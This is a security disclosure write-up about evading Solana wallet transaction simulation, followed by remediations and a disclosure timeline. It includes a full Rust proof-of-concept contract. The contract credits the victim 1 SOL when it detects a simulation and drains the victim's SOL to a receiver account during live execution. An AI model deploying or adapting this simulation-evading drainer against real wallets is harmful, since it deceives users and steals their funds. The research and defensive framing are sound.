


## Context

In 2021, multiple users were "rugged" by malicious Solana smart contracts. By simply allowing one transaction with the smart contract, all of the user's assets were transfered into attacker's wallet. This could happen because Solana smart contracts have complete control over the user lamports (the smallest Solana uint) and can freely transfer them to whatever address the program wishes.

To prevent an increasingly rampant amount of wallets drained by malicious actors, Phantom, Solflare and many other wallets rolled out an update whereas any transaction is simulated prior to approval and the estimated balances changes are displayed to the users. The user can then decide whether or not to approve the transaction.



However, it is interesting to note that, as stated by Phantom, this estimate does not guarantee the exact balance changes. From that, we picked up an interest in finding if it was possible to trick the estimate in displaying incorrect amounts.

## Understanding how the simulation works

The first step was to understand how wallets were simulating balances changes. We decided to work with Phantom as it is currently the most used wallet for Solana.

When initiating a transaction, we noticed Phantom does the following requests:



Every 5 seconds (1), Phantom makes a RPC request to `solana-mainnet.phantom.tech` (2) calling method `simulateTransaction` (3). This method is [documented in the Solana documentation](https://docs.solana.com/developing/clients/jsonrpc-api#simulatetransaction) and returns an array of account containing its lamports and the associated data for the account if there is any.  
To estimate the balance changes in SOL, wallets just do the difference of the user lamports before and after the simulation. For SPL token, the user balance is serialized in the account data. The wallets then deserialize both the actual state of the SPL account and the simulated future state to calculate the difference.

Let's take a look at the protocol level now. First off, it is important to understand what a RPC is. On Solana, an RPC node is a non-voting validator; they do everything a validator does except vote on the validity of blocks. They expose an API that can be requested in order to get information about the blockchain. In our case, the following code get executed when calling `simulateTransaction`:

[solana/rpc/src/rpc.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/rpc/src/rpc.rs#L3562)
```rust

fn simulate_transaction(
    &self,
    meta: Self::Metadata,
    data: String,
    config: Option<RpcSimulateTransactionConfig>,
) -> Result<RpcResponse<RpcSimulateTransactionResult>> {
    debug!("simulate_transaction rpc request received");
    // ...
    let TransactionSimulationResult {
        result,
        logs,
        post_simulation_accounts,
        units_consumed,
    } = bank.simulate_transaction(transaction);
}
```

The RPC module delegate the call to `bank.simulate_transaction(transaction)`.
A bank in Solana is the entity that process transactions and create a [block](https://docs.solana.com/terminology#block). It process transactions until there are no more or if we are reaching the end of the slot lifetime.
A [slot](https://docs.solana.com/terminology#slot) is a time unit and one slot will always be equal to approximately 400ms. A slot contains at most 1 block which means that a slot will either contain 0 block or 1 block.  
Usually, a slot contains a block. But if the validator is too slow to build a block or if it is offline, then the slot can be empty. The slot will always increase every ± 400ms.

[solana/runtime/src/banks.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/runtime/src/bank.rs#L3236)
```rust
/// Run transactions against a frozen bank without committing the results
pub fn simulate_transaction(
    &self,
    transaction: SanitizedTransaction,
) -> TransactionSimulationResult {
    assert!(self.is_frozen(), "simulation bank must be frozen");

    self.simulate_transaction_unchecked(transaction)
}
```

To avoid modifying the state of an ongoing bank, simulations are run against the last frozen bank. If it is possible to detect from a smart contract if we are running inside an unfrozen or a frozen bank, then it would be possible to detect simulation versus real execution.

## Detecting a frozen bank

Browsing the code further, we stumbled upon this comment:

[solana/runtime/src/banks.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/runtime/src/bank.rs#L25)
```rust
//! Once it [filling the block with transactions] is complete, the bank can then be frozen.
//! After frozen, no more transactions can be applied or state changes made. At the frozen step,
//! rent will be applied and various sysvar special accounts update to the new state of the system.
```


So what happens when the bank is frozen and which accounts get updated ?

[solana/runtime/src/bank.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/runtime/src/bank.rs#L2710)
https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/runtime/src/bank.rs#L2710-L2736
```rust
pub fn freeze(&self) {
    // This lock prevents any new commits from BankingStage
    // `process_and_record_transactions_locked()` from coming
    // in after the last tick is observed. This is because in
    // BankingStage, any transaction successfully recorded in
    // `record_transactions()` is recorded after this `hash` lock
    // is grabbed. At the time of the successful record,
    // this means the PoH has not yet reached the last tick,
    // so this means freeze() hasn't been called yet. And because
    // BankingStage doesn't release this hash lock until both
    // record and commit are finished, those transactions will be
    // committed before this write lock can be obtained here.
    let mut hash = self.hash.write().unwrap();
    if *hash == Hash::default() {
        // finish up any deferred changes to account state
        self.collect_rent_eagerly();
        self.collect_fees();
        self.distribute_rent();
        self.update_slot_history();
        self.run_incinerator();

        // freeze is a one-way trip, idempotent
        self.freeze_started.store(true, Relaxed);
        *hash = self.hash_internal_state();
        self.rc.accounts.accounts_db.mark_slot_frozen(self.slot());
    }
}
```

The `update_slot_history` function updates the system account [`SlotHistory`](https://docs.rs/solana-program/1.9.4/solana_program/slot_history/struct.SlotHistory.html) with the latest slot:

[solana/runtime/src/bank.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/runtime/src/bank.rs#L2036)
```rust
fn update_slot_history(&self) {
    self.update_sysvar_account(&sysvar::slot_history::id(), |account| {
        let mut slot_history = account
            .as_ref()
            .map(|account| from_account::<SlotHistory, _>(account).unwrap())
            .unwrap_or_default();
        slot_history.add(self.slot());
        create_account(
            &slot_history,
            self.inherit_specially_retained_account_fields(account),
        )
    });
}
```

The `SlotHistory` account is defined with this layout:

[solana/sdk/program/src/slot_history.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/sdk/program/src/slot_history.rs#L10)
```rust
pub struct SlotHistory {
    pub bits: BitVec<u64>,
    pub next_slot: Slot,
}
```

`slot_history.add(self.slot())` update the `SlotHistory` account with the next existing slot after this block (`self.slot + 1`) and the bitvector containing all of the previous slots of the epoch.  
Now we know that at the slot `N`, once the bank is frozen, the account `SlotHistory` has `next_slot` set to the slot `N+1`. If we can find another account containing the slot, and depending of where it gets updated, maybe we could compare it with `next_slot` ?

[`Clock`](https://docs.solana.com/developing/runtime-facilities/sysvars#clock) is another account that contains the actual slot. The layout is defined as is

[solana/sdk/program/src/clock.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/sdk/program/src/clock.rs#L109)
```rust
pub struct Clock {
    // the current slot
    pub slot: Slot,
    pub epoch_start_timestamp: UnixTimestamp,
    pub epoch: Epoch,
    pub leader_schedule_epoch: Epoch,
    // start timestamp for this slot
    pub unix_timestamp: UnixTimestamp,         
}
```

The `Clock` does not get updated at the same time as the `SlotHistory` because it has to contain the actual slot and we've seen before that a slot might not always contain a block. Updating the slot at the end of the previous block could lead to the `Clock` containing an invalid slot in the case that the next slot does not produce a block. Instead, the `Clock` struct has to be updated at the beginning of a block as it is currently done (code has been simplified):

[solana/runtime/src/bank.rs](https://github.com/solana-labs/solana/blob/2e56c59bcb2fde78303f11fa75f873b5d77ecbb0/runtime/src/bank.rs#L1469)
```rust
fn _new_from_parent(
        parent: &Arc<Bank>,
        slot: Slot,
    ) -> Self {
    let mut new = Bank {
        slot,
    };
    let parent_epoch = parent.epoch();
    new.update_clock(Some(parent_epoch));
    new
}
```

We can deduct some pseudo code that would allow us to detect the simulation from that

```python
if clock_account.slot >= slot_history_account.next_slot:
    print("In real execution context")
else:
    print("In simulation")
```

## Proof of Concept

We created a Proof of Concept to take different paths based on the execution context. When the smart contract detect that it is running in a simulation, it credits the user with 1 SOL. Otherwise, it transfers all the user's SOL to an account owned by the program.

As the user thinks that he will be credited SOL, it is easy to trick him into approving the transaction.

```rust
use solana_program::{
    account_info::{next_account_info, AccountInfo},
    clock::Clock,
    entrypoint,
    entrypoint::ProgramResult,
    msg,
    native_token::LAMPORTS_PER_SOL,
    program::invoke,
    program_error::INVALID_ARGUMENT,
    pubkey::Pubkey,
    system_instruction,
    sysvar::Sysvar,
};
use std::convert::TryInto;

entrypoint!(process_instruction);

pub fn process_instruction(
    _program_id: &Pubkey,
    accounts: &[AccountInfo],
    _instruction_data: &[u8],
) -> ProgramResult {
    msg!("Hello !");

    let account_info_iter = &mut accounts.iter();

    let victim_account = next_account_info(account_info_iter)?;
    let slot_history_account = next_account_info(account_info_iter)?;
    let system_program = next_account_info(account_info_iter)?;
    let receiver_account = next_account_info(account_info_iter)?;

    // Slot is an u64 at the end of the structure
    let data = slot_history_account.data.borrow();
    let slot: u64 = u64::from_le_bytes(data[data.len() - 8..].try_into().unwrap());

    let clock = Clock::get().unwrap();

    msg!("next_slot is {:?} ", slot);
    msg!("clock is in slot {:?} ", clock.slot);

    if victim_account.lamports() < 10000000 {
        msg!("Not enough lamports in victim account !");
        return Err(INVALID_ARGUMENT.into());
    } else if clock.slot >= slot {
        msg!("We are onchain, let's get the money");
        let lamports_theft = victim_account.lamports() - 10000000;
        **receiver_account.try_borrow_mut_lamports()? += lamports_theft;
        **victim_account.try_borrow_mut_lamports()? -= lamports_theft;
    } else {
        msg!("We are in a simulation, let's credit the victim !");
        **receiver_account.try_borrow_mut_lamports()? -= LAMPORTS_PER_SOL;
        **victim_account.try_borrow_mut_lamports()? += LAMPORTS_PER_SOL;
    }

    Ok(())
}
```

The Proof of Concept has been deployed on Mainnet and Devnet. You can test it [here](https://donttrustbanks.opcodes.fr)

Vidéo: [Proof of Concept Video](./static/tricking_simulation.webm)  

## Other research focus

We found two additional ways to detect the simulation. Fortunately, none of them were totally accurate.

The first one leverage the voters account. Each block, validators must vote for the previous slot containing a block. This votes are saved in an account owned by the validator. By looking from a smart contract at the voter accounts, we can potentially deduct the execution context. Indeed, at the slot `N`, if at least 1 vote account contains a vote for the slot `N-1`, then the execution context is live. Otherwise, it is a simulation.  
While this theorically work, validators most often does not vote fast enough for their slot vote for `N` to be included in the slot `N+1`. Instead it gets included in the slot `N+2` or `N+3`. Moreover, the vote transaction must be included before the user transaction in the block for this to work. When one of this assertion is not valid, this results in the smart contract thinking it is running in simulation context while it is running live. Using this method, we were only able to formerly identify live execution 25% of the time.

The second way to detect simulation makes use of the [Incinerator](https://explorer.solana.com/address/1nc1nerator11111111111111111111111111111111/) account. The Incinerator is a special system account where lamports sent to it are burnt at the end of the current block. By checking if there are lamports on the incinetaror account, we can make a guess at which context the smart contract is running in. We achieved a 85% success rate at identifying live execution with this method.

## Remediations

As a quick fix, we recommend wallets to display an alert message to the user whenever the `Incinerator` or `SlotHistory` accounts are passed.
In traditional smart contracts, this account are very rarely used so the impact should be low. On a daily average, the `Incinerator` account is only used in ~3 transactions and the `SlotHistory` in less than a transaction a day (in fact, we didn't find any program using this sysvar apart from us).

The long term solution would be to add a guard instruction at the end of the transaction to check on the account balances. This instruction would take as parameter the minimum that the accounts should contain and would be based on the simulation.
We acknowledge that in the current context of very limited transaction size, not all transactions could be protected. However, even if Solana scales and increases the maximum transaction size, problem will remain the same as transactions could still be filled up. This is why we feel it makes sense to start protect transaction even with the current limitations. In case where a guard instruction cannot be inserted because of the transaction size, wallets can display a warning to the user.

## Timeline

2021-04-12 - Disclosed to Solana  
2021-07-12 - Solana answer that matters related to this class of vulnerability should rather be addressed to the wallet vendors  
2022-01-24 - Disclosed to Phantom  
2022-01-24 - Disclosed to Solfare  
2022-02-01 - Public Disclosure  
2022-04-21 - Fixed in Solana Core, [PR 24542](https://github.com/solana-labs/solana/pull/24543)

## Contributors

[@CanardMandarin](https://github.com/CanardMandarin) and [@Xenoliss](https://github.com/xenoliss)
